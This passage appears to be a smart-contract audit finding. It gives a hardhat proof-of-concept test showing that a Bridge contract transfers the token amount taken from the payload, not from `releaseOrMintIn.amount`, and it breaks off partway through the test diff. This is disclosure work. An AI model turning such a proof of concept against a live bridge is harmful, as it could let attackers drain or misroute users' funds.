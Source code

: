 ## Proof of Concept

Please put the following code in `test/Bridge.ts` and run

```bash
yarn hardhat test test/Bridge.ts 
yarn run v1.22.22
$ /in/evm-smart-contracts/node_modules/.bin/hardhat test test/Bridge.ts
duplicate definition - ZeroAddress()
duplicate definition - LengthMismatch()
duplicate definition - LengthMismatch()


  Bridge
    Actions/Flows
      ✔ Transfer Based On payload (145ms)
```

As the POC demostrates, the amount of token trasferred based on payload, instead of `releaseOrMintIn.amount`

```diff
diff --git a/test/Bridge.ts b/test/Bridge.ts
index 8b62c3d..24114bc 100644
--- a/test/Bridge.ts
+++ b/test/Bridge.ts
@@ -334,6 +334,93 @@ describe('Bridge', function () {
                 );
         });
 
+        it.only('Transfer Based On payload', async () => {
+            let amount = AMOUNT;
+            let fee = amount / 10n;
+
+            let amountWithoutFee = amount - fee;
+            let receiver = signer2.address;
+
+            let payload = getPayloadForAction(
+                [
+                    CHAIN_ID,
+                    encode(['address'], [await bridgeSource.getAddress()]),
+                    CHAIN_ID,
+                    encode(['address'], [await bridgeDestination.getAddress()]),
+                    encode(['address'], [receiver]),
+                    amountWithoutFee,
+                    ethers.AbiCoder.defaultAbiCoder().encode(['uint256'], [0]),
+                ],
+                DEPOSIT_BRIDGE_ACTION
+            );
+
+            await lbtcSource
+                .connect(signer1)
+                .approve(await bridgeSource.getAddress(), amount);
+            await expect(
+                bridgeSource
+                    .connect(signer1)
+                    .deposit(CHAIN_ID, encode(['address'], [receiver]), amount)
+            )
+                .to.emit(bridgeSource, 'DepositToBridge')
+                .withArgs(
+                    signer1.address,
+                    encode(['address'], [receiver]),
+                    ethers.sha256(payload),
+                    payload
+                );
```